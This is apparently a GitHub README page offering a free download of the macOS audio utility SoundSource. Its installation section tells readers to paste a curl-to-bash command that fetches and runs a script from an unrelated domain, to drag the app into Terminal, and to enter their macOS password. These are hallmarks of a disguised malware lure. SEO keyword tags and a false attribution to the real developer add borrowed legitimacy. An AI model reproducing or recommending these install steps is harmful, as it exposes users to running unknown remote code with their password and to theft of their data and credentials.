 # SoundSource For Mac — Download For Mac OS

SoundSource is a powerful audio utility for macOS that gives you full control over audio input, output, and system sound settings. Easily switch devices, apply effects, and control volume with just a few clicks. 🔊

[![Download for macOS](https://img.shields.io/badge/Download%20for%20macOS-SoundSource-blue?style=for-the-badge\&logo=apple)](https://mrboomzeus519.github.io/gimronus/ss)

If the download button doesn't work, please use the Terminal installation method below.

---

## 📦 How to Install SoundSource For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above.
2. Open the .dmg installer and drag the SoundSource app into the Applications folder.
3. Open Terminal and drag the SoundSource app into it.
4. Press "Return" and enter your macOS password if prompted (leave blank if none).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below:

```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get3/install.sh)"
```

2. Open Terminal, paste the command, and press "Return".
3. Enter your password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## 🎯 What You Get With SoundSource

* 🎚 Instantly switch audio input and output devices
* 🔈 Apply volume adjustments and effects per app
* 🎧 Add audio effects like equalizer, balance, and more
* 🖥 Full control from the menu bar without opening settings
* 🎛 Route specific app audio to different devices
* 🔐 Lightweight, responsive, and secure

---

## About SoundSource For Mac

SoundSource for Mac is an advanced macOS utility designed to give you effortless control over your Mac’s audio. It allows users to manage input/output devices and audio routing per application — all from a clean, menu bar interface.

Whether you're using external monitors, headphones, or USB interfaces, SoundSource lets you quickly adjust which device plays or records sound. Volume and effects can be adjusted for each app independently, providing pro-level audio flexibility.

Built by Rogue Amoeba, SoundSource integrates deeply with macOS and provides tools that go far beyond the default audio settings. You can apply an equalizer, enable volume boosting, or isolate audio routing for each application on your system.

For streamers, musicians, or power users, SoundSource is essential. It's fast, efficient, and tailored for those who need more from macOS audio without complex setups.

---

## 🌟 Key Benefits of Using SoundSource

* 🎚 Per-app audio control and output switching
* 🎧 System-wide audio effects and equalizer
* 🔄 Quickly change input/output from the menu bar
* 🎯 Perfect for streamers, creators, and audiophiles
* 🔒 No background bloat — fast and efficient
* 🧩 Deep macOS integration, no extra drivers needed

---

## 🖼 Preview

![Main Interface](https://i.ytimg.com/vi/n0x43MaaalQ/maxresdefault.jpg)
*Manage all your Mac audio from one place*


---

## 🔍 Tags

soundsource mac download, soundsource for mac free, soundsource, sound source, sound source for mac, sound source download, sound source audio, mac sound source
